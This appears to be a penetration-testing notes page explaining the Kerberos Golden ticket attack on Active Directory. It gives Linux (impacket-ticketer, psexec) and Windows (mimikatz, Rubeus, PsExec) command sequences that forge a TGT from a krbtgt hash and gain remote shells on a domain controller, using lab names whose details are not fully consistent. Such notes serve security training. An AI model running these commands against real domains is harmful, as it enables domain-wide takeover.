 # Golden ticket

{% hint style="info" %}
The Golden ticket technique is similar to the Silver ticket one, however, in this case a TGT is crafted by using the NTLM hash of the [krbtgt](https://www.tarlogic.com/cybersecurity-glossary/krbtgt/) AD account. The advantage of forging a TGT instead of TGS is being able to access any service (or machine) in the domain.
{% endhint %}

{% hint style="success" %}
Create Ticket Using Hash Krbtgt account
{% endhint %}

### **Linux**

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">impacket-ticketer -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/stegosaurus.ccache
<strong>impacket-psexec jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
</strong></code></pre>

### **Windows**

{% code overflow="wrap" %}
```bash
.\mimikatz.exe
privilege::debug
kerberos::golden /domain:hacktor.local /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:25b2076cda3bfd6209161a6c78a69c1c /user:krbtgt
exit
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist
.\PsExec.exe -accepteula \\lab-wdc02.jurassic.park cmd
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>


